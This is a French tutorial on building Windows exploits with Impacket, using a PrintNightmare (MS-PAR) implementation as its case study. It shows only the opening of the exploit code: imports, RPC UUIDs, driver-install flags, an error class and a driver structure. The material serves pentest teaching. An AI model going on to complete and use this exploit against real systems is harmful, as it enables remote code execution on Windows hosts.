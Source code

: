 Impacket est une des suites d'outils les plus utilisés quand il s'agit de faire du pentest sur un réseau et sur un environnement windows du à son large choix de protocoles disponibles ainsi que ses méthodes d'attaques.
Mais beaucoup de personnes se limites aux outils présent dans impacket, aujourd'hui nous allons voir comment on peux developper un exploit contre windows via Impacket et python en analysant des implémentations.

Prerequis : 
- Bonne bases en réseau et Windows
- Savoir programmer en python

A l'avenir, si vous voulez developper des outils via impacket il faudras vous familiariser avec la documentation microsoft.

# I - Cas d'étude : Implémentation MS-PAR pour PrintNightmare :

```python
#!/usr/bin/python3
from impacket.dcerpc.v5 import par, rpcrt, epm
from impacket.dcerpc.v5.transport import DCERPCTransportFactory
from impacket.dcerpc.v5.dtypes import ULONGLONG, UINT, USHORT, LPWSTR, DWORD, ULONG, NULL
from impacket.dcerpc.v5.ndr import NDRCALL, NDRSTRUCT, NDRUNION, NDRPOINTER, NDRUniConformantArray
from impacket.uuid import uuidtup_to_bin, string_to_bin
from impacket import system_errors
from impacket.dcerpc.v5.rpcrt import DCERPCException

MSRPC_UUID_PAR = uuidtup_to_bin(('76F03F96-CDFD-44FC-A22C-64950A001209', '1.0'))
MSRPC_UUID_WINSPOOL = string_to_bin('9940CA8E-512F-4C58-88A9-61098D6896BD')

APD_STRICT_UPGRADE              = 0x00000001
APD_STRICT_DOWNGRADE            = 0x00000002
APD_COPY_ALL_FILES              = 0x00000004
APD_COPY_NEW_FILES              = 0x00000008
APD_COPY_FROM_DIRECTORY         = 0x00000010
APD_DONT_COPY_FILES_TO_CLUSTER  = 0x00001000
APD_COPY_TO_ALL_SPOOLERS        = 0x00002000
APD_INSTALL_WARNED_DRIVER       = 0x00008000
APD_RETURN_BLOCKING_STATUS_CODE = 0x00010000

class DCERPCSessionError(DCERPCException):
    def __init__(self, error_string=None, error_code=None, packet=None):
        DCERPCException.__init__(self, error_string, error_code, packet)

    def __str__( self ):
        key = self.error_code
        if key in system_errors.ERROR_MESSAGES:
            error_msg_short = system_errors.ERROR_MESSAGES[key][0]
            error_msg_verbose = system_errors.ERROR_MESSAGES[key][1] 
            return 'PAR SessionError: code: 0x%x - %s - %s' % (self.error_code, error_msg_short, error_msg_verbose)
        else:
            return 'PAR SessionError: unknown error code: 0x%x' % self.error_code

class DRIVER_INFO_2(NDRSTRUCT):
    structure = (
        ('cVersion', DWORD),
        ('pName', LPWSTR),
        ('pEnvironment', LPWSTR),
        ('pDriverPath', LPWSTR),
        ('pDataFile', LPWSTR),
        ('pConfigFile', LPWSTR),
    )
	
```